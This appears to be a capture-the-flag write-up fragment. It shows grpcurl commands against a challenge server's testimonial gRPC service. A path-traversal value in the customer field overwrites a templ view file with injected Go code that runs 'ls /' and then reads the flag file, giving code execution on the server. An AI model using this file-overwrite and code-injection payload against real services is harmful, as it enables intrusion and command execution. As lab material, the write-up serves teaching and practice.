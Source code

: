 ```
templ template(items []string) {
    for _, item := range items {
        {item}
    }
}
```

```
l3mnt2010@ASUSEXPERTBOOK:~/tools/Tesmitional$ grpcurl -import-path challenge/pb/ -proto ptypes.proto 94.237.59.63:31364 list
RickyService
l3mnt2010@ASUSEXPERTBOOK:~/tools/Tesmitional$ grpcurl -import-path challenge/pb/ -proto ptypes.proto 94.237.59.63:31364 describe RickyService
RickyService is a service:
service RickyService {
  rpc SubmitTestimonial ( .TestimonialSubmission ) returns ( .GenericReply );
}
l3mnt2010@ASUSEXPERTBOOK:~/tools/Tesmitional$ grpcurl -import-path challenge/pb/ -proto ptypes.proto 94.237.59.63:31364
RickyService.SubmitTestimonial
Failed to dial target host "94.237.59.63:31364": tls: first record does not look like a TLS handshake
l3mnt2010@ASUSEXPERTBOOK:~/tools/Tesmitional$ grpcurl -plaintext -d '{"customer": "test", "testimonial": "test"}' -import-path challenge/pb/ -proto ptypes.proto 94.237.59.63:31364 RickyService.SubmitTestimonial
{
  "message": "Testimonial submitted successfully"
}
l3mnt2010@ASUSEXPERTBOOK:~/tools/Tesmitional$ grpcurl -plaintext -d '{"customer": "../../view/home/index.templ", "testimonial": "package home\n\nimport (\n\t\"os/exec\"\n\t\"strings\"\n)\n\nfunc hack() []string {\n\toutput, _ := exec.Command(\"ls\", \"/\").CombinedOutput()\n\tlines := strings.Fields(string(output))\n\treturn lines\n}\n\ntempl Index() {\n\t@template(hack())\n}\n\ntempl template(items []string) {\n\tfor _, item := range items {\n\t\t{item}\n\t}\n}" }' -import-path challenge/pb/ -proto ptypes.proto 94.237.59.63:31364 RickyService.SubmitTestimonial
{
  "message": "Testimonial submitted successfully"
}
l3mnt2010@ASUSEXPERTBOOK:~/tools/Tesmitional$
```

![image](https://hackmd.io/_uploads/rkVGJCs80.png)


```
l3mnt2010@ASUSEXPERTBOOK:~/tools/Tesmitional$ grpcurl -plaintext -d '{"customer": "../../view/home/index.templ", "testimonial": "package home\n\nimport (\n\t\"os/exec\"\n\t\"strings\"\n)\n\nfunc hack() []string {\n\toutput, _ := exec.Command(\"cat\", \"/flagd9d82e7fe1.txt\").CombinedOutput()\n\tlines := strings.Fields(string(output))\n\treturn lines\n}\n\ntempl Index() {\n\t@template(hack())\n}\n\ntempl template(items []string) {\n\tfor _, item := range items {\n\t\t{item}\n\t}\n}" }' -import-path challenge/pb/ -proto ptypes.proto 94.237.59.63:31364 RickyService.SubmitTestimonial
{
  "message": "Testimonial submitted successfully"
}
l3mnt2010@ASUSEXPERTBOOK:~/tools/Tesmitional$
```
